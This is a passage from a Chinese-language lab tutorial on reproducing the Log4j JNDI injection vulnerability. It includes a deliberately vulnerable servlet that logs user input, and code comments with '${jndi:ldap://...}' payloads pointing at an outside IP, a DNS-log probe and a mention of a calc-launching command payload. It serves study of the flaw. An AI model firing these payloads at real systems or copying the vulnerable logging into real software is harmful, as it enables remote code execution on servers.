 #### 测试漏洞

创建新项目Log4jWeb，将Log4j依赖导入，并创建Log4jServlet.java代码如下：

```java
package org.example.log4jwebdemo;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/log4j")
public class Log4jServlet extends HttpServlet {
    // 构造HTTP WEB服务  使用带漏洞Log4j版本 实现功能
    private static final Logger logger = LogManager.getLogger(Log4jServlet.class);

    @Override
    public void doGet(HttpServletRequest req, HttpServletResponse res) {
        // 接收
        String code = req.getParameter("code");
        //code=$(java:os) 输出执行结果
        //code=(java:os) 正常输入
        //${jndi:ldap://47.94.236.117:1389/uyhyw6}
        //${jndi:ldap://xxxx.dns.log}
        //ldap://47.94.236.117:1389/uyhyw6 生成的远程可访问的调用方法
        //什么方法？ -C "calc" 执行计算机的功能方法（JNDI注入工具生成的）
        
        
        
        // 调用日志输出
        logger.error("{}",code);
        
        //1、开发源码中引用漏洞组件如log4j
        //2、开发中使用组件的代码（触发漏洞代码）
        //3、可控变量去传递Payload来实现攻击
    }
}
```

启动tomcat，在url输入：http://localhost:8080/Log4jWebDemo_war_exploded/log4j?code=$%7bjava:os%7d，一开始是使用的`%{java:os}`提示是非法的字符，之后就使用ASCII编码中对应的进行转义就可以正常访问了。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/3601.png)

#### 网上漏洞注入

https://blog.csdn.net/qq_51302564/article/details/121963049

### JNDI

